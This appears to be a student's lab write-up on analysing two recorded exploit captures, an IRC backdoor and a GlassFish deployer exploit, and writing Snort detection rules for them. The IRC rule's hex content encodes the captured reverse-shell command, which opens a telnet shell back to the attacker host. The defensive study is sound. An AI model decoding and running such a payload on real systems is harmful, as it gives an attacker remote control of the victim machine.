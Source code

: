 # Network Exploit Analysis and Snort Rule Development

This project involves analyzing network traffic from two recorded exploits using Wireshark and developing Snort IDS rules to detect these attacks while minimizing false positives. 
The packet captures contain traffic from a network administrator who isolated known exploit attempts. 
The project includes two main analyses: an IRC Backdoor Exploit and a GlassFish Deployer Exploit.

IRC Backdoor Exploit Analysis:
File: irc_backdoor_exploit.pcapng

Attacker IP: 10.1.1.3
Victim IP: 10.2.2.4
Victim Port: 6697
Number of Attack Attempts: 2
Attack Payload Packets: [4, 11]
Proposed Snort Rule:
alert tcp 10.1.1.3 any -> 10.2.2.4 6697 (msg:"IRC Backdoor Exploit Attempt"; content:"41423b7368202d63202728736c65657020343631307c74656c6e65742031302e312e312e3320343434347c7768696c65203a203b20646f20736820262620627265616b3b20646f6e6520323e26317c74656c6e65742031302e312e312e332034343434203e2f6465762f6e756c6c20323e2631202629270a"; sid:1000001; rev:1;)

Feedback from Network Administrator: The command should look for a specific string pattern ("AB;") in the payload.

False Positives: The rule is specific to the payload content; however, it may still trigger false positives if the same payload pattern appears in legitimate traffic. 
Careful tuning and adding more context checks, such as specific sequences or additional packet attributes, may be required to reduce false positives.


GlassFish Deployer Exploit Analysis:
File: glassfish_deployer_exploit.pcapng

Attacker IP: 10.1.1.3
Victim IP: 10.2.2.3
Victim Port: 4848
Number of Attack Attempts: 3
Attack Payload Packets: [38, 85, 132]
Proposed Snort Rule:
alert tcp 10.1.1.3 any -> 10.2.2.3 4848 (msg:"GlassFish Deployer Exploit Attempt"; content:"3c7469746c653e4465706c6f7920456e7465727072697365204170706c69636174696f6e732f4d6f64756c65733c2f7469746c653e0a6f732e6e616d65203d204c696e75780a6f732e61726368203d20783836"; sid:1000002; rev:1;)

Feedback from Network Admin: The rule should specifically look for "post" or "upload" and ".war".

Attack Identification: The payload content indicates the deployment of a malicious application/module to the GlassFish server, likely exploiting a vulnerability in the deployment functionality. 
This attack pattern aligns with exploits targeting the GlassFish server's deployment service, specifically CVE-2011-0807.

False Positives: Similar to the IRC Backdoor rule, this Snort rule is based on specific payload content. 
Legitimate deployments or configurations with similar payload patterns may trigger false positives. Adding more context to the rule, such as checking for additional malicious indicators or behaviors, can help minimize false positives.

Learning and Improvement:

During this project, valuable feedback from a network administrator significantly enhanced my understanding and skills in creating Snort IDS rules. Here are some key takeaways:

Specific Pattern Matching: Initially, my Snort rules were too general, which could lead to a high rate of false positives. The feedback emphasized the importance of looking for specific string patterns within the payload, such as "AB;" in the IRC Backdoor Exploit. This helped me refine the rule to be more precise.
Understanding Context: The suggestion to include checks for specific actions like "post," "upload," and ".war" in the GlassFish Deployer Exploit was crucial. This feedback taught me that understanding the context of the attack and incorporating it into the rule can greatly improve detection accuracy while reducing false positives.
Continuous Learning: The feedback loop highlighted the importance of continuous learning and adaptation. It reminded me that in the field of cybersecurity, especially when working with tools like Snort, it's essential to keep refining rules based on observed behavior and expert insights.
This feedback has not only improved the quality of the Snort rules I developed but also deepened my understanding of network security practices.


Resources used: 

https://lwn.net/Articles/392201/

https://nvd.nist.gov/vuln/detail/CVE-2011-0807
